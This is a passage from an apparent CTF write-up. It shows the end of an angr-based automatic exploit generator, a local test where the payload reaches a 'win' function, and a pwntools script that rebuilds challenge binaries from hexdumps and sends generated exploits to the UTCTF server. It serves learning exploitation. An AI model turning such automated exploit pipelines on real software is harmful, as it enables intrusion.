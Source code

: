 ```python

if __name__ == '__main__':
    main(sys.argv[1])
```

Now let's test it:
```
$ python3 aeg.py sample/0
...
[+] Wrote payload to sample/0.exp

$ ./sample/0 < sample/0.exp

$ echo $?
100
```

That means the program exited with status code `100`, which means that the
`win` function was called! Now all that's left is to wrap this in a pwntools
script to interact with the challenge server:

> Note: For some reason I couldn't get pwntools and angr to work in the same
> Python virtualenv, so I had to do an ugly workaround.

```python
import pwn
import subprocess


def aeg(i: int):
    """
    Run aeg.py in virtualenv with angr installed, since pwntools and angr seem
    to have dependency conflicts >:(
    """
    filename = f"bins/{i}"
    cmd = f"./env/bin/python aeg.py {filename}"
    print(subprocess.check_output(cmd, shell=True))
    return open(f"bins/{i}.exp", "rb").read()


pwn.context.log_level = "debug"
io = pwn.remote("pwn.utctf.live", 9997)
io.sendlineafter("Press enter when you're ready for the first binary.", "")

for i in range(10):
    s = io.recvuntilS("You have 60 seconds to provide input:")
    s = "\n".join(s.split("\n")[:-1])  # Get rid of the last line
    s = s.strip()
    open(f"bins/{i}.hex", "w").write(s)
    # Parse hexdump into a binary file
    subprocess.check_output(f"xxd -r bins/{i}.hex > bins/{i}", shell=True)

    exp = aeg(i)
    io.sendline(exp)
    io.recvuntil("Process exited with return code")
    io.recvline()

io.interactive()
```

